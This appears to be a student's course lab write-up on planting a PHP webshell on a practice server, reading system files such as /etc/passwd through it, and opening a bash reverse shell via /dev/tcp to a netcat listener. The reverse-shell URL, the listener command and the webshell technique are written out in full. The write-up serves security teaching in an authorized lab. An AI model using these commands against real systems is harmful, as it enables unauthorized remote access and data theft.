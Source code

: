 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## FIRST REVERSE SHELL ##

### Part 1: Installing a PHP webshell ###

a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

>  *To execute the whoami command on the server, I accessed the path to my uploaded web shell file in the URL and included ***?command=whoami****, so my URL looks like this: 
 http://danger.jeffondich.com/uploadedimages/muhozal-webshell1.php?command=whoami
>
>  *The uploaded PHP code then checks if a command parameter is provided in the URL and executes that specified command through the system function, thus allowing remote code execution.
The resulting output is the name of the user under which the web server is running, in this case www-data.*


b. What is this webshell's ```<pre>``` tag for? (And more to the point, what happens if you leave it out?)

> *The ```<pre>``` tag ensures that the output from the system function is displayed in a well-structured and readable way. Leaving out the tag would result into a messy output since HTML would ignore whitespace and line breaks thus making elements like lists of files or directories harder to read.*

*****
### Part 2: Looking around ###

a. What directory is danger's website located in?

> *Using the **pwd** command, the directory in which danger's website is located in is: **/var/www/danger.jeffondich.com***

b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

> *Using ```command=ls /home```, I was able to find the two main user directories on danger.jeffondich.com in the home directory. These user accounts are **bullwinkle** and **jeff***

c. Do you have access to the file /etc/passwd? What's in it?

> *I was able to access `/etc/passwd`*
> 
> *The file contains information about all the user accounts on danger.jeffondich.com. The present fields include each user account's username, path to the user's home directory and default shell, and more details.*

d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)

> *No, I do not have access to ```/etc/shadow```.*
>
> *This file stores encrypted user passwords and other information about user accounts. Each entry typically includes fields like the username, hashed password, last password change, and password expiration policies.*

e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

> *I found a moose using ```command=cat /home/jeff/supersecret.txt```*

f. [Optional] Report on anything else interesting you discover.

> *I was frustrated but eventually found it helpful that the ```cd``` command does not work in web shell (at least I encountered a site error on my computer).*
> 
> *I learned that when I send a command via a PHP web shell, it’s executed in a new, isolated shell session every time. Any directory changes made with cd exist only in that temporary shell, which closes immediately after the command runs. This allows me to explore diffent directories without needing ```cd```.*

****
### Part 3: Setup for part 4 ###
****

### Part 4: Launching a reverse shell ###

a. What is the IP address of your Kali VM (the target machine)? How did you find out?

> *The IP address of my Kali VM in 192.168.64.2. I found it by running the `ip a` command in my Kali terminal and inspecting the eth0 interface section*

b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

> *I was able to obtain the IP address of my macOS by running the `ifconfig | grep inet` command in my terminal. Here is the list of present IP addressed:*
>
>```
>	inet 127.0.0.1 netmask 0xff000000
>	inet6 ::1 prefixlen 128 
>	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
>	inet6 fe80::a494:37ff:fecf:e5d5%ap1 prefixlen 64 scopeid 0xb 
>	inet6 fe80::1c5b:29b2:d71e:3487%en0 prefixlen 64 secured scopeid 0xc 
>	inet 10.133.0.214 netmask 0xffffe000 broadcast 10.133.31.255
>	inet6 fe80::4c06:6dff:fe19:7ce2%awdl0 prefixlen 64 scopeid 0xd 
>	inet6 fe80::4c06:6dff:fe19:7ce2%llw0 prefixlen 64 scopeid 0xe 
>	inet6 fe80::a05f:d8e8:8da2:d878%utun0 prefixlen 64 scopeid 0xf 
>	inet6 fe80::d48b:7e2a:ed1d:51fa%utun1 prefixlen 64 scopeid 0x10 
>	inet6 fe80::9b38:4747:3b6c:256d%utun2 prefixlen 64 scopeid 0x11 
>	inet6 fe80::ce81:b1c:bd2c:69e%utun3 prefixlen 64 scopeid 0x12 
>	inet6 fe80::4942:7591:c656:402e%utun4 prefixlen 64 scopeid 0x13 
>	inet6 fe80::7001:54e0:1851:ca5d%utun5 prefixlen 64 scopeid 0x14 
>	inet6 fe80::4a03:9414:840e:86b2%utun6 prefixlen 64 scopeid 0x17 
>	inet6 fe80::6905:89f9:1401:c108%utun7 prefixlen 64 scopeid 0x18 
>	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
>	inet6 fe80::8494:37ff:fefc:8b64%bridge100 prefixlen 64 scopeid 0x16 
>	inet6 fd6a:c3ab:6dda:5cc4:1c66:5278:ac7d:564 prefixlen 64 autoconf secured 
>```
> *The **IP 192.168.64.1** should be used to communicate with Kali, given that my Kali VM has the **IP address 192.168.64.2**. This makes both machines part of the same local network, allowing for direct communication.*

c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

> *Ran the command nc -l 5050 in my mac terminal*

d. In a browser on your host machine, use your web shell to go to this crazy URL.

> *My URL is: http://192.168.64.2/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5050%200%3E%261%22*

e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

> *I have successfully established a reverse shell connection from my Kali VM back to my macOS. The output show `www-data@kali:/var/www/html$`*
>
> *Yes, I can execute commands on Kali from my macOS now. Here is a screenshot of the `ls` command that listed the files in the `/var/www/html` directory and `whoami` command that displayed the username of the current user on Kali:*
>
>  <img width="255" alt="Screenshot 2024-10-29 at 2 55 31 PM" src="https://github.com/user-attachments/assets/ea34c3b3-f027-4dc6-97d0-bf108de33cf9">
>
> *I know the shell is from my Kali because the prompt shows `www-data@kali`, where www-data is the username and kali is the hostname of the Kali VM. And, when I run pwd to see my current working directory, the output is `/var/www/html`, which is the default location for the Apache web server on Kali Linux.*

f. What are all those % codes in the URL you used?

> *The % codes in the URL are URL-encoded representations of special characters. This is necessary because URLs cannot include certain characters directly; instead, they must be represented in a format that can be safely transmitted over the internet. Using [this documentation](https://www.w3schools.com/tags/ref_urlencode.ASP) as reference, for example: %20 represents a space and %22 represents a double quote "" and %26 represents an ampersand &.*

g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.

> * *I started netcat listener on my macOS that waits for incoming connections on a specified port i.e `nc -l 5050`*
> * *I then sent an HTTP request to the Apache2 web server on the Kali VM. The URL contains a `bash` command that tells Kali (the target) to connect back to my macOS (the attacker)*
> * *Apache2 receives this request and forwards it to webshell.php in the same directory `/var/www/html`.*
> * *The PHP webshell interprets the bash command and executes it. This command initiates a reverse shell connection back to my macOS's IP address and port 5050 as specified in the URL ( i.e connects to attacker’s host machine).*
> * *My macOS’s listener accepts the connection, and now I, the attacker, have access to the Kali VM shell and can execute commands from my computer.*
>
>  *Here is a diagram of my description:*
> 
> ![IMG_0177](https://github.com/user-attachments/assets/e3e70d5c-056f-4c0b-9ce4-f1dfb409a5ff)


